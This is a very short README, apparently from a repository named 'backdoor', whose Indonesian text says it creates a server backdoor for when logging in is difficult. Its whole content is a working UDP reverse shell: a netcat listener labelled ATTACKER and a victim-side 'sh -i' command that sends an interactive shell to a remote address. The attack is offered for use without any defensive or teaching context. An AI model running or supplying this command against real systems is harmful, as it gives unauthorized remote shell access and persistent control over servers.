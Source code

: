 # backdoor
Buat pintu belakang server kalau misal susah login.

ATTACKER:
* ```nc -ulvp 4242```

VICTIM:
* ```sh -i >& /dev/udp/10.0.0.1/4242 0>&1```

